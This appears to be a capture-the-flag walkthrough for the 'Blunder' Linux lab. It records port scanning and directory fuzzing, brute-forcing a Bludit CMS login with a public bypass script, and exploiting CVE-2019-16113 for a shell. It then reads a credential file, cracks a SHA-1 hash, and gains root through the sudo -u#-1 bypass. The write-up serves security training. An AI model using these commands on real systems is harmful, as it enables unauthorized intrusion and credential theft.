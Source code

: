 ## Blunder  

### Lab Details 

- Difficulty: Easy
- Type:   Linux

#### Tasks

Q1: How many TCP ports are open on the remote host?
 - `nmap -sT -T4 -vv -A -p- -oA Blunder 10.10.10.191`

Q2: What is the name of the unusual file that dirbusting reveals?
 - scanned for - using /usr/share/wordlists/dirb/big.txt, unable to find any interesting files
 ``` 
   ffuf -u http://10.10.10.191/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .ext1 .ext2 .ext3
   .php 
   .pdf 
   .txt 
   .config 
   .js 
   .md 
   .html
   .xml
   .cgi
   .ini
   .log
   .dat
   .cfg
   .yml 
``` 
 - scanned again - using /usr/sharewordlists/dirb/common.txt 
``` 
 [Status: 200, Size: 118, Words: 20, Lines: 5, Duration: 309ms]
    * FUZZ: todo.txt
```
 - `curl http://target_ip/todo.txt`
 ```
 -Update the CMS
 -Turn off FTP - DONE
 -Remove old users - DONE
 -Inform fergus that the new blog needs images - PENDING
 ```

Q3: What is the version of Bludit CMS that is used?
 - the version can be found using curl 
 - `curl http://target_ip/`
 ```
         <!-- Javascript -->
        <script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=**3.9.2**"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=**3.9.2**"></script>

        <!-- Load Plugins: Site Body End -->

</body>
</html>
 ```

Q4: What is the password for the user "fergus" on Bludit CMS?
- admin panel is located at http://target_ip/admin
- tool like hydra, medusa or burpsuite can be used to conduct login bruteforce
- below is example using medusa
```
medusa -h 10.10.10.191 -u fergus -P /usr/share/wordlists/rockyou.txt  -M http -t 2   
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 0 complete) Password: 12345 (1 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 12345 [SUCCESS]
ACCOUNT CHECK: [http] Host: 10.10.10.191 (1 of 1, 0 complete) User: fergus (1 of 1, 1 complete) Password: 123456 (2 of 14344391 complete)
ACCOUNT FOUND: [http] Host: 10.10.10.191 User: fergus Password: 123456 [SUCCESS]
```
- however when attempting login with found password, getting username or password error
- attempted with hydra getting the same error
- tried different wordlist, found both tools are giving false positives
- searched Bludit 3.9.2 github and found https://github.com/noraj/Bludit-auth-BF-bypass
    - used cewl to create a custom wordlist by scrapping target site
    - `cewl http://10.10.10.191 -m 5 -w custom_wordlist.txt` 
    - run the auth BF bypass script 
    - `ruby exploit.rb -r http://10.10.10.191/admin -u fergus -w custom_wordlist.txt`
    ```
    ...
    [+] Password found: RolandDeschain
    ```
Q5: What is the 2019 CVE ID for a remote code execution vulnerability in Bludit 3.9.2?
- search for Bludit 3.9.2 RCE POC
- CVE-2019-16113

Q6: What is the password of the user Hugo?
- after running the exploit from above, a shell can be gained with user www-data
- run linpea.sh, found a user.php file at a different version of blundit 
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files 
...
/var/www/bludit-3.10.0a/bl-content/databases/users.php
...
```
- which contains hash of hugo
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}

````
- check hashtype `hashid "faca404fd5c0a31cf1897b823c695c85cffeb98d"`
```
Analyzing 'faca404fd5c0a31cf1897b823c695c85cffeb98d'
[+] SHA-1
... 
```
- use https://www.dcode.fr/sha1-hash to decrypt the hash 
- `password: Password120`

Q7: Submit the flag located in the hugo user's home directory.
- since the default shell from CVE-2019-16113 is not interactive, the shell needs to be upgrade to run `su`
- python is installed the target can use to upgrade 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- su hugo -> cat /home/hugo/user.txt


Q8: What 2019 CVE ID is related to the currently installed Sudo version?
- according to the result from linpeas.sh 
- current sudo version is 1.8.25p1
```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                               
Sudo version 1.8.25p1   
```
- which according to https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
- we can use below to exploit and gain root shell
```
sudo -u#-1 /bin/bash
```
- `cat /root/root.txt


#### Lesson Learned
 - If one wordlist doesnt work try a couple different ones, like as file extensions 
